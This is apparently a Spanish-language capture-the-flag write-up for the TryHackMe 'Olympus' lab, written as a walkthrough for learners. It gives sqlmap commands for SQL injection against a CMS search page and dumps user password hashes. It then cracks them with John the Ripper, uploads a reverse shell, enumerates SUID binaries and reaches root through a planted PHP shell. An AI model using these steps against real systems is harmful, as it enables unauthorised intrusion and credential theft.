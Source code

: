 Realizamos un escaneo con nmap
![[Pasted image 20240611130812.png]]

Detectamos dos puertos abiertos, el 22 y el 80, empezaremos analizando el puerto 80, para ello comenzaremos haciendo fuzzing web
```Bash
dirsearch -u http://olympus.thm -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -e php,html, js
```
![[Pasted image 20240611130547.png]]

Analizamos el ultimo enlace y encontramos que es un CMS muy vulnerable
![[Pasted image 20240611130927.png]]

Revisando encontramos la siguiente vulnerabilidad del CMS
![[Pasted image 20240611131635.png]]

Revisamos y comenzaremos explotando esta vulnerabilidad
```
https://www.exploit-db.com/exploits/48734
```

Esta vulnerabilidad indica que podemos hacer una injección de SQL mediante la explotación del campo search de la siguiente url
```
http://olympus.thm/~webmaster/search.php
```

Ejecutamos el siguiente comando con la herramienta sqlmap y encontramos que es vulnerable a la injección de sql
```Bash
sqlmap "http://olympus.thm/~webmaster/search.php" --data="search=1337*&submit=" --dbs --random-agent -v 3
```
![[Pasted image 20240611135709.png]]

Ahora ejecutamos el sigueinte comando para enumerar la base de datos
```Bash
sqlmap "http://olympus.thm/~webmaster/search.php" --data="search=1337*&submit=" -D olympus --tables --random-agent -v 3
```
![[Pasted image 20240611140217.png]]

Ejecutando el siguiente comando obtenemos la primera flag y los siguientes usuarios
```Bash
sqlmap "http://olympus.thm/~webmaster/search.php" --data="search=1337*&submit=" -D olympus --dump-all --random-agent -v 3
```
![[Pasted image 20240611141126.png]]
Usuario: prometheus
Email: prometheus@olympus.thm
Rol: User
Hash de contraseña: $2y$10$YC6uoMwK9VpB5QL513vfLu1RV2sgBf01c0lzPHcz1qK2EArDvnj3C

Usuario: root
Email: root@chat.olympus.thm
Rol: Admin
Hash de contraseña: $2y$10$lcs4XWc5yjVNsMb4CUBGJevEkIuWdZN3rsuKWHCc.FGtapBAfW.mK

Usuario: zeus
Email: zeus@chat.olympus.thm
Rol: User
Hash de contraseña: $2y$10$cpJKDXh2wlAI5KlCsUaLCOnf0g5fiG0QSUS53zp/r0HMtaj6rT4lC

Ahora utilizaremos john the ripper para descifrar las contraseñas de estos usuarios
```Bash
john --format=bcrypt --wordlist=~/rockyou.txt users.txt
```
![[Pasted image 20240611143230.png]]
![[Pasted image 20240611143253.png]]

Ahora probaremos a acceder con las credenciales obtenidas
![[Pasted image 20240611143656.png]]

Y ya estamos dentro del panel del cms
![[Pasted image 20240611143719.png]]


Revisando la información encontramos que varios usuarios estan logueados con el dominio de `chat.olympus.thm` lo agregamos a nuestro host y probamos a acceder
![[Pasted image 20240612075626.png]]

Al buscarlo en el navegador podemos ver que encontramos acceso a otro panel
![[Pasted image 20240612075740.png]]

Probamos a loguearnos con las credenciales previamente obtenidas y obtenemos resultado
![[Pasted image 20240612075835.png]]

Vamos a proceder a realizar una enumeración de este dominio
![[Pasted image 20240612080539.png]]

Encontramos una ruta de uploads la cual aparentemente podemos ver los archivos que subimos, en el chat revisamos y encontramos una coincidencia de un archivo subido con la información obtenida con la inyección de sql en la cual encontramos el archivo con el nombre cambiado
![[Pasted image 20240612080817.png]]

Cogemos el nombre del archivo subido y encontramos que podemos acceder
![[Pasted image 20240612081052.png]]

Ahora intentaremos subir una carga maliciosa para obtener una reverse shell, cargamos la shell
![[Pasted image 20240612081500.png]]

La buscamos para ver como lo ha guardado en la base de datos volviendo a ejecutar la injeccion de sql con sqlmap agregando el parametro fresh-queries para refrescar los resultados y como podemos ver se ha subido lo que hemos cargado
```Bash
sqlmap "http://olympus.thm/~webmaster/search.php" --data="search=1337*&submit=" -D olympus --dump-all --random-agent -v 3 --fresh-queries

```
![[Pasted image 20240612081758.png]]

Nos ponemos en escucha con netcat, ejecutamos el archivo y obtenemos la reverse shell
![[Pasted image 20240612081916.png]]
![[Pasted image 20240612081931.png]]

Ahora crearemos una shell estable y empezaremos a intentar obtener una escalada de privilegios, revisando encontramos la segunda flag y el siguiente mensaje
![[Pasted image 20240612082612.png]]

Buscaremos realizar una escalada al usuario zeus para posteriormente obtener acceso como root, revisando los binarios encontramos uno que es sospechoso
```Bash
find / -perm -4000 2>/dev/null
```
![[Pasted image 20240612084039.png]]

Ejecutamos el binario y descubrimos que se utiliza para extraer ficheros
![[Pasted image 20240612090029.png]]

Si intentamos extraer el la clave privada encontrariamos que no tenemos permisos
![[Pasted image 20240612090126.png]]

Así que nos copiamos la clave privada e intentamos acceder al sistema por ssh
![[Pasted image 20240612090314.png]]

No obtenemos acceso porque nos solicita la password, asi que extraeremos el id a hash para luego intentar crackearlo
![[Pasted image 20240612090542.png]]

Ahora con john the ripper crackearemos el hash
```Bash
john --format=SSH zeus.hash
```
![[Pasted image 20240612093005.png]]

Ahora cambiamos los permisos del archivo con la clave privada para poder acceder al sistema
![[Pasted image 20240612094028.png]]

Revisando la carpeta de zeus encontramos la siguiente información
![[Pasted image 20240612094741.png]]

Parece ser un archivo de configuración para gestionar contenedores en Linux, intentamos revisar los contenedores pero no tenemos permisos
```Bash
lxc image list images
```
![[Pasted image 20240612095749.png]]

Continuamos buscando información y encontramos una carpeta sospechosa la cual al acceder encontramos un archivo php que al leerlo nos proporciona una configuración de una reverse shell
![[Pasted image 20240612104402.png]]

Ahora accedemos a la url del archivo y nos aparece para escribir una password
![[Pasted image 20240612111727.png]]

Al escribirla nos indica los parametros para poder obtener la reverse shell
![[Pasted image 20240612111812.png]]


Ahora escribimos arriba en el navegador el comando que aparece abajo y ya habremos obtenido la reverse shell como root
![[Pasted image 20240612145253.png]]
![[Pasted image 20240612145309.png]]

Y ya podremos obtener la flag
![[Pasted image 20240612145438.png]]

Escribiendo el siguiente comando obtenemos la ubicación de la flag oculta
```Bash
grep -irl flag{ /etc/
```
![[Pasted image 20240612150521.png]]